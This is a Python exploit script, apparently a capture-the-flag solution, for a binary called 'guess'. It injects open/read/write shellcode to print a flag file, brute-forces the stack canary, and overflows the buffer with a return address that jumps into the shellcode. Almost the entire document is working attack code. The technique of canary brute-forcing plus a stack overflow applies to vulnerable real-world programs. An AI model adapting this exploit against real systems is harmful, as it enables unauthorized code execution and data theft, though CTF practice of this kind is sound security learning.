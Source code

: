```python
    python3 exp.py remote --help
Local:
    python3 exp.py debug --file ./pwn
Remote:
    python3 exp.py remote --ip 127.0.0.1 --port 9999 [--file ./pwn] [--libc ./libc.so.6]
    python3 exp.py remote --url 127.0.0.1:9999 [--file ./pwn] [--libc ./libc.so.6]
"""

# ./exp.py de -f ./guess
# ./exp.py re -f ./guess -u ""

from ckyan.pwnScript import *

def exp():
    pandora_box.init_script()

    elf = pandora_box.elf
    libc = pandora_box.libc
    p = pandora_box.conn

    shellcode = shellcraft.open('./flag')
    shellcode += shellcraft.read(3, 0x404078, 0x30)
    shellcode += shellcraft.write(1, 0x404078, 0x30)
    
    sl(asm(shellcode))

    padding = 0x20 - 8

    canary_attacker = Canary()

    canary_attacker.find_full_canary(padding=padding,
                                     send_after_str=b'thinking?(0-1000):\n')
    
    canary = canary_attacker.value

    log_canary(uu64(canary))

    pad = b''
    pad += b'a' * padding
    pad += canary
    pad += b'a' * 8
    pad += p64(0x40404000)

    ru(b'In what number I am thinking?(0-1000):\n')
    s(pad)

    pattern_flag_from_data(b'flag', ra())

if __name__ == '__main__':
    exp()

```
